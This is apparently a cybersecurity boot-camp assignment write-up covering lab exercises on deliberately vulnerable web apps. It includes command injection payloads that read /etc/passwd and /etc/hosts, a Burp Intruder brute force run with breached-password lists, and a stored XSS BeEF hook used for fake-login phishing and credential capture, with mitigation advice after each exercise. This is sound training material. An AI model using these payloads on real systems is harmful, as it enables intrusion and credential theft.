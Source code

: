 ## Web Application 1: Your Wish is My Command Injection
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         cd ./Documents/web-vulns && docker-compose up
      ```

    * Open a browser and navigate to the following webpage: http://192.168.13.25

    * The web page should look like as the figure below

    * Log in with the following credentials:
      *    Usernmae: admin
      *    Password: password

    * Select the **Command Injection** or access this page directly http://192.168.13.25/vulnerabilities/exec/
    * Entering the IP address `8.8.8.8` press **Submit** to see the results display on the web application.

![Web Application 1_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_1.png)


* Behind the scenes, when we select Submit, the IP you type in the field is injected into a command that is run against the Replicants webserver. The specific command that ran on the webserver is `ping <IP>` and `8.8.8.8` is the field value that is injected into that command.


2.  Now that we have determined that Replicants new application is vulnerable to command injection, we will tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

      - `/etc/passwd`
   
      - `/etc/hosts`


<details>
<summary> <b> Click here to view Design Command Injection Payloads. </b> </summary>

---

#### How to manipulate the input to cause an unintended result 
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_cat_passwd_1.png)
![Web Application 1_cat_passwd_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_cat_passwd_2.png)

- On the same webpage, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_4.png)
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_2.png)

- On the web browser, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_5.png)
   

#### Mitigation Strategies

1. **Input validation** is a method to validate the data input with a predefined logic, ensuring that the input is what the application is expecting. Input validation can be applied on the client-side or the server-side. For example,
   
|          | Function | Example    |
|----------|----------|------------|
| **Client-side**| Input validation involves coding the predefined logic into the webpage.                   | An input can only be chosen from a predefined drop-down menu.     |
| **Server-side**| Input validation involves adding the predefined logic into the code on the web server.    | If a user enters a malicious SQL code and selects submit, then the web server will check and remove it after receiving this malicious input.     |

2. **Avoid Command-Line Calls Altogether** The first prevention method you can do is avoiding command line calls. Because when we’re using command lines, it opens users to risk such as command injection. 
   
3. **Use Built-in APIs Instead of OS Commands** Another method is to shift from using Operating System (OS) commands to much-safer APIs, considering that most reputable APIs have built-in security measures. 
   
4. **Reject Unacceptable Code** We can also use server-level protection, which is blacklisting a set of codes. Simply by only allowing the codes we and our team built prevents any other code from accessing the server. Thus, creating a barrier between the malicious codes and the whole server.
   
5. **Escaping Shell Metacharacters** Also, to prevent any other characters and limit the output of commands, we can use escaping shell metacharacters. This method allows us to expressly grant access depending on the variables. Our developer can set these variables based on our needs.    
   
   
</details>

---


## Web Application 2: A Brute Force to Be Reckoned With
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         sudo burpsuite
      ```

    * Open the Firefox browser and navigate to the following webpage: http://192.168.13.35/install.php.

    * The web page should look like as the figure below. Click **here** to install bWapp.

    * After successfully installing bWapp, log in with the following credentials:
       - Username: bee
       - Password: bug


    * To access the application where we will perform our activity, enter in the following URL: http://192.168.13.35/ba_insecure_login_1.php
    
    * On Firefox browser, make sure the FoxyProxy settings is set to **Burp**.

![Web Application 2_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_1.png)

- This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login:
     - Username: test-user
     - Password: password

![Web Application 2_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_2.png)

* Following was displayed in the Burp Suite in **Proxy** tab under the Intercept - Highlighting the **Login and password** credentials.

![Web Application 2_3](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_3.png)

* From the web application tool Burp Suite, on the **Intercept** tab, right click anywhere to send the information to **Intruder** 
 
   -  Select the **Intruder** tab, and verify the Target tab

![Web Application 2_4](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_4.png)
![Web Application 2_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_5.png)

   -  Select the **Positions** tab and change the attack type to **Cluster bomb**, also **clear** all payload positions, except for the login and password credentials.

![Web Application 2_6](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_6.png)

* We've been provided with a list of administrators and the breached passwords:
* [ ] [List of Administrators](listofadmins.txt)
* [ ] [Breached list of Passwords](breached_passwords.txt)


<details>
<summary> <b> Click here to view How to conduct a brute force attack. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 
   
* Select **Payloads** tab and enter the [List of Administrators](listofadmins.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 1  

![Web Application 2_7](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_7.png)
   
- Add the password from the [Breached list of Passwords](breached_passwords.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 2  
   
![Web Application 2_8](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_8.png)

- Click the **Start** attack button to get the results.
   
![Web Application 2_9](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_9.png)

- Results from the analysis that was complete from the Intruder show that there was one successful login username/password combination. 
   
![Web Application 2_10](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_10.png)
   
- It was user name of **" tonystark"** and the password **"I am Iron Man"**. Below snapshots display the successful login in the **Response** tab.

![Web Application 2_11](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_11.png)
   
#### Mitigation Strategies

**Developers** can use several mitigation methods to protect against a brute force attack:

   1.) Require complex usernames and passwords:
For example, require the user to include special characters, upper and lowercase, and numbers in the username and password.

   2.) Lockout accounts after a number of failed attempts:
For example, after three failed login attempts, the user's account gets locked.

   3.) Use multi-factor authentication (MFA):
For example, require users to have a password and a secondary form of authentication, like a pin generated by an external token and/or requiring complex usernames and passwords. 
   
   
</details>

---


### Web Application 3: *Where's the BeEF?*

1. Access Vagrant, open the terminal and and run the command

```
sudo beef
```
When prompted for a password, enter `cybersecurity`.

2. This will kick off the BeEF application and return many details about the application to your terminal. We can access to BeEF's User Interface (UI) by right-click the first URL and select Open Link `UI_URL: http://127.0.0.1:3000/ui/panel`. 

   - When the BeEF webpage opens, login with the following credentials:
     - Username: `beef`
     
     - Password: `feeb`

     ![wd_hw11](Images/wd_hw11.png)

   - You have successfully completed the setup when you have reached the **BeEF Control Panel** shown in the image below:

     ![wd_hw12](Images/wd_hw12.png)

3. Prepare the Replicants website, from the Terminal in Vagrant navigate to ~/Documents/web-vulns directory by

```
cd ~/Documents/web-vulns
```
and run the command

```
sudo docker-compose up
```
![Web Application 3_3.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_3.png)

   - Go to the web browser and enter the following in the address bar `http://192.168.13.25/vulnerabilities/xss_s/` then reset the database and login with the following credentials:
     - Username: `admin`
     
     - Password: `password`
     
     
3. The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
![Web Application 3_4.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_4.png)

- The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`. 

- When trying to inject the payload there was an issue found, in the message box field, there was a limit of `maxlength="50"` character in the source code. Therefore we could not inject the payload.
![Web Application 3_5.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_5.png)

- Solution to solve this issue, right-click on web page < click **Inspector** < In **Inspector windows** scrolling down till we see the `<textarea name="mtxMessage"
cols="50" rows="3" maxlength="50">` then now we can edit from 50 to any bigger number  
![Web Application 3_6.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_6.png)

Now we are able to hook into Replicants website, so next we will attempt a couple BeEF exploits including:

   - Social Engineering >> Pretty Theft

   - Social Engineering >> Fake Notification Bar

   - Host >> Get Geolocation (Third Party)


<details>
<summary> <b> Click here to view How to Exploiting XSS with BeEF. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 

- First, we'll attempt a social engineering exploit to create a fake Log-in to user. We can use this to capture victim credentials.
- To access this exploit, navigate to **BeEF Control Panel** < select current hooked browser < go to **Commands** tab < expanding **Social Engineering** < click **Google Phishing**.
- To launch th exploit, click **Execute** button in the bottom right corner.

![Web Application 3_8.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_8.png)   

- After executed, return to the browser that has been changed to a Google Mail Login page.     
   
![Web Application 3_9.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_9.png)
   
- The victim could easily mistake entering their credentials. Use the following credentials to login to this fake Google Mail page.
   
![Web Application 3_10.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_10.png)   
   
- Return to the BeEF control panel, in the center windows we'll see the module history command. Click that command to see the results in the last windows panel.
   
![Web Application 3_11.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_11.png)  
   
- As we saw, the username and password have been captured. Now we can try on another method as the following:
   
   - Social Engineering >> Pretty Theft

![Web Application 3_12.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_12.png) 
   
![Web Application 3_13.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_13.png) 
   
![Web Application 3_14.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_14.png) 

   - Social Engineering >> Fake Notification Bar
![Web Application 3_15.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_15.png) 

   - Host >> Get Geolocation (Third Party)
![Web Application 3_16.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_16.png)
   
#### Mitigation Strategies

**BeEF** is an exploitation tool that focuses on a specific client-side application: the web browser. BeEF allows an attacker to inject a JavaScript code into a vulnerable HTML code using an attack such as XSS or SQL injection. This exploit code is known as hook. A compromise is achieved when the hook is executed by the browser. The browser (zombie) connects back to the BeEF application, which serves JavaScript commands or modules to the browser. BeEF's modules perform tasks such as the following:

   1.) Fingerprinting and the reconnaissance of compromised browsers. It can also be used as a platform to assess the presence of exploits and their behavior under different browsers.

   2.) Detecting software on the client (Internet Explorer only) and obtaining a list of the directories in the Program Files and Program Files (x86)directories. This may identify other applications that can be exploited to consolidate our hold on the client.

   3.) Taking photos using the compromised system's webcam; these photos have a significant impact in reports.
   
   4.) onducting searches of the victim's data files and stealing data that may contain authentication credentials (clipboard content and browser cookies)  or other useful information.
   
   5.) Implementing browser keystroke logging.
   
   6.) onducting network reconnaissance using ping sweeps and fingerprint network appliances and scanning for open ports.
   
   7.) Launching attacks from the Metasploit Framework.
   
   8.) Using the tunneling proxy extension to attack the internal network using the security authority of the compromised web browser.
   
Because BeEF is written in Ruby, it supports multiple operating systems (Linux, Windows, and OS X). More importantly, it is easy to customize new modules in BeEF and extend its functionality.
   
There may be both technical recommendations (e.g., applying a particular patch) and non-technical recommendations that address the organization’s processes (e.g., updating the patch management process).

1. Deployment of OS and application patches. Maintaining and updating a patch management program is a necessary component in reducing the attack surfaces. 

2. Security architecture changes. External and Internal networks should be separated by different trust boundaries, with packet filtering controls at the nodes in order to reduce an attacker’s access to sensitive information.

3. Review file permissions and use the least privilege principle.

4. Conduct regular vulnerability assessments. Regular vulnerability assessments are needed for the timely discovery and patching of new previously undiscovered vulnerabilities.
   
5. Defend web applications against the OWASP Top 10 Security Risks - Policy, process, and procedure modifications including deployment of new security technologies.   
   
   
   
</details>

---




---

### Citations and References:

#### General Resources:

- InfoTech News. Command Injection: What It Is And How To Prevent It. [cited 2021 September 29]. Available from: [meterpreter.org](https://meterpreter.org/command-injection-what-it-is-and-how-to-prevent-it/).
- Akshat Khare. Parth Chopra. Rahul Motwani. Web Applications Penetration Testing. Center of Excellence in Cyber Systems and Information Assurance (CoE-CSIA), IIT Delhi. [cited 2021 October 1]. Available from: [cse.iitd.ac.in](https://www.cse.iitd.ac.in/~cs1160315/WebPenetrationTesting.pdf)
- Karen Scarfone (NIST), Murugiah Souppaya (NIST), Amanda Cody (BAH), Angela Orebaugh (BAH). Technical Guide to Information Security Testing and Assessment. NIST National Institute of Standards and Technology. [cited 2021 October 1]. Available from:[nist.gov/publications](https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-115.pdf).
- Robert W. Beggs. Mastering Kali Linux for Advanced Penetration Testing. ISBN 978-1-78216-312-1. Packt Publishing Ltd. [cited 2021 October 1]. Available from: [happyfunnyland.com](http://www.happyfunnyland.com/downloads/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-Beggs-Robert.pdf)


#### Special thanks:
© Trilogy Education Services, a 2U, Inc., Instructor Jerry and TAs; Matt, Jansen, Micheal.

© The University of Texas at Austin Boot Camp, The Cybersecurity program.

---
